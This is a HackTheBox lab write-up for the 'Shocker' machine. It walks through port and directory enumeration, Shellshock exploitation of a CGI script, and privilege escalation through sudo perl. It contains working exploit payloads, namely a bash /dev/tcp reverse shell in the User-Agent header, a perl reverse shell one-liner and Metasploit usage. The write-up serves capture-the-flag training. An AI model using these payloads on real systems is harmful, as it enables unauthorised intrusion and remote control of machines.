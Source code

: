 # Hackthebox Shocker


Before we start I always reset the box, it is often that services have crashed or behaves in unintended ways after others have exploited them. And I do not want any spoilers that may have been left by others on the box.


## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
# Nmap 7.70 scan initiated Tue Oct  9 21:05:58 2018 as: nmap -v -sV -oA shocker_tcp 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running a full scan did not show any additional open ports.

There are only two services to focus on. Let's start with the webserver.

### Content Discovery

I run Gobuster on the application as I browse it manually with a browser.

```
root@kali:~/hackthebox# gobuster -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/small.txt

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.56/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2018/10/09 22:23:33 Starting gobuster
=====================================================
/cgi-bin/ (Status: 403)
=====================================================
2018/10/09 22:23:37 Finished
=====================================================
```

The Gobuster scan only reveal a directory called /cgi-bin/, but we are forbidden to access it.

If we visit the page we are presented with a picture and the text "Don't Bug Me!". The attacksurface seems extremly small. 

I download the picture to look for anything hidden (steganography), but no luck.

So, what next. The box is called "shocker", this could have something to do with shellshock. This is a vulnerability that could affect scripts in cgi-bin directories (among others).

Let's enumerate that folder some more. I specify that the scan should look for .sh-files using the -x flag on gobuster.

```
root@kali:~/hackthebox# gobuster -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.56/cgi-bin/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : sh
[+] Timeout      : 10s
=====================================================
2018/10/09 22:25:46 Starting gobuster
=====================================================
/user.sh (Status: 200)
=====================================================
2018/10/09 22:25:53 Finished
=====================================================
```

Bingo, we have found a script. There must be a shellshock issue here somewhere.


## Initial Compromise

There is a tool called Commix that can scan and exploit command injection issues such as shellshock.

```
root@kali:~/hackthebox/shocker# commix -u http://10.10.10.56/cgi-bin/user.sh --shellshock
                                      __
   ___   ___     ___ ___     ___ ___ /\_\   __  _
 /`___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\  v2.6-stable
/\ \__//\ \L\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
\ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\ http://commixproject.com
 \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ (@commixproject)

+--
Automated All-in-One OS Command Injection and Exploitation Tool
Copyright (c) 2014-2018 Anastasios Stasinopoulos (@ancst)
+--

[*] Checking connection to the target URL... [ SUCCEED ]
[*] Testing the shellshock injection technique... [ SUCCEED ][*] Identified the following injection point with a total of 2 HTTP(S) requests.                                                               

[+] The (User-Agent) 'http://10.10.10.56/cgi-bin/user.sh' seems vulnerable via shellshock injection technique.                                                                                              
    [~] Payload: "() { :; }; echo CVE-2014-6271:Done;"

[?] Do you want a Pseudo-Terminal shell? [Y/n] >

Pseudo-Terminal (type '?' for available options)
commix(os_shell) > 
```
However I found the shell somewhat buggy. So let's do it manually. We know that the User-Agent header is vulnerable.

The following GET request will list the contents of the webroot folder:

```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; echo; /bin/ls
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Reverse shell:

```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.17/1234 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
Catch the shell:

```
root@kali:~/htb/shocker# nc -lvp 1234
listening on [any] 1234 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.56] 58426
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

We can also use the Metasploit module for shellshock to get a meterpreter shell:

```
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit 

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (861480 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.10.56:47002) at 2018-11-12 21:45:06 +0100

meterpreter > getuid 
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 10.10.10.56
OS           : Ubuntu 16.04 (Linux 4.4.0-96-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
## Privilege Escalation

A typical Linux privilege escalation method is based on one of the following:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits

Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process. 

Using our shell I check what we can do with sudo:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can run perl as root without having to supply a password with sudo. So if we simply run a perl reverse shell to our attacking machine, with sudo, we should have root.

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'use Socket;$i="10.10.14.17";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We catch the incoming shell:

```
root@kali:~/htb# nc -lvp 443
listening on [any] 443 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.56] 36864
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```